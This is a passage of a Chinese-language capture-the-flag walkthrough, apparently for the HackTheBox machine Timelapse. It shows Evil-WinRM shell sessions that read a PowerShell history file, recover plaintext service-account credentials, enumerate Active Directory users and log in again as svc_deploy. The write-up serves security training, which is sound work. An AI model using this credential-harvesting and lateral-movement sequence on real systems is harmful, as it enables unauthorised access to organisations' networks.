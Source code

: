 ```
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txtwhoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

正如 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools) 备忘单上注明的，这是需要检查的众多文件之一。由此我们有了一个新用户 svc_deploy 和一个密码。我们还看到他们查看了 AD 中的所有用户，快速检查显示有不少用户:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> get-aduser -filter * | select samaccountname
Enter PEM pass phrase:

samaccountname
--------------
Administrator
Guest
krbtgt
thecybergeek
payl0ad
legacyy
sinfulz
babywyrm
svc_deploy
TRX
```

# Evil-WinRM 作为用户 SVC_Deploy

作为当前用户，我不能做太多，让我们切换到我们找到的 svc_deploy 帐户:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> exit
Enter PEM pass phrase:
Info: Exiting with code 0

┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```
